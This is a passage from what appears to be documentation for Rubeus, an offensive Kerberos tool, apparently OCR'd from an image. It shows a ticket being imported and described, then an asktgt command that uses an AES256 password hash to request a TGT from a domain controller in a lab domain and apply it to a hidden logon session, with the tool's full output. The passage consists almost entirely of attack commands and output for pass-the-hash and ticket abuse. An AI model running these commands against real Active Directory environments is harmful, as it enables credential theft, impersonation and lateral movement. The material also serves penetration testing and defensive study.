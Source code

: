  MDYwN1qoDxsNVEVTVExBQi5MT0NBTKkiMCCgAwIBAqEZMBcbBmtyYnRndBsNdGVzdGxhYi5sb2NhbA==

 [*] Action: Import Ticket
 [+] Ticket successfully imported!

 [*] Action: Describe Ticket

 UserName : dfm.a
 UserRealm : TESTLAB.LOCAL
 ServiceName : krbtgt/testlab.local
 ServiceRealm : TESTLAB.LOCAL
 StartTime : 2/25/2019 307 PM
 EndTime : 2/25/2019 807 PM
 RenewTill : 3/4/2019 307 PM
 Flags : name_canonicalize, pre_authent, initial, renewable, forwardable
 KeyType : rc4_hmac
 Base64(key) : +zY8adXi2NuvkAxl1ohUOA==


Requesting a ticket via aes256_hmac hash for **dfm.a@testlab.local**, starting a new hidden process and applying the ticket to that logon session. **Note: elevation needed!**

 C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /domain:testlab.local /aes256:e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27 /createnetonly\Windows\System32\cmd.exe

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3


 [*] Action: Create Process (/netonly)

 [*] Showing process : False
 [+] Process : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
 [+] ProcessID : 7564
 [+] LUID : 0x3c4c241

 [*] Action: Ask TGT

 [*] Using aes256_cts_hmac_sha1 hash: e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27
 [*] Target LUID : 63226433
 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
 [*] Connecting to 192.168.52.100:88
 [*] Sent 234 bytes
 [*] Received 1620 bytes
 [+] TGT request successful!
 [*] base64(ticket.kirbi):
